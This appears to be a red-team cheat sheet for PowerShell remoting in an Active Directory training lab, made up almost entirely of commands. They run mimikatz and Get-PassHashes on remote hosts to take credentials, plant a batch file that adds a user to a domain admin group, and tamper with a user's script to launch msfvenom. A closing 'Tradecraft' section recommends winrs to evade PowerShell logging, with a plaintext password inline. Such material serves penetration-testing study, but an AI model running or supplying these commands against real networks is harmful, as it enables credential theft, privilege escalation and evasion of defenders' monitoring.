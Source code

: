 # 1 Invoke Command PSSession

## Cmdlets \[ Enter/New-PSSession ]

### Connect to a PS-Session of a remote user

```powershell
Enter-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

### Execute Stateful commands using Enter-PSSession ( persistence )

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> exit

Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> proc
Will list current process
```

## Cmdlets \[ Invoke-Command ]

### Execute Stateful commands using Invoke-Command ( persistence )

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

### Display allowed commands we can execute on remote machine

```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {get-command}
```

### Write File using ScriptBlock

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

### Edit file using ScriptBlock

```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\msfvenom.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

### Command execution using command and ScriptBlock

```powershell
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -command {whoami}
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -command {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {whoami}
```

### File execution using ScriptBlock

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
```

### File execution using FilePath

```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath "C:\temp\mimikatz.exe"
```

### Language Mode

```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

### Execute locally loaded function on the remote machines

Example : **Hello.ps1**

```powershell
function hello
{
Write-Output "Hello from the function"
}
```

Now we can load the function on our machine

```powershell
. .\Hello.ps1
```

Now we can execute the locally loaded functions

```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

### In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -ArgumentList
```

### Directly load function on the remote machines using FilePath

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> hello
Hello from the function
```

***

## Tradecraft

* PowerShell remoting supports the system-wide transcripts and deep script block logging.
* We can use **winrs** in place of **PSRemoting** to evade the logging (and still reap the benefit of 5985 allowed between hosts)

```powershell
C:\> winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```

> We can also use COM objects of **WSMan** COM object - https://github.com/bohops/WSMan-WinRM
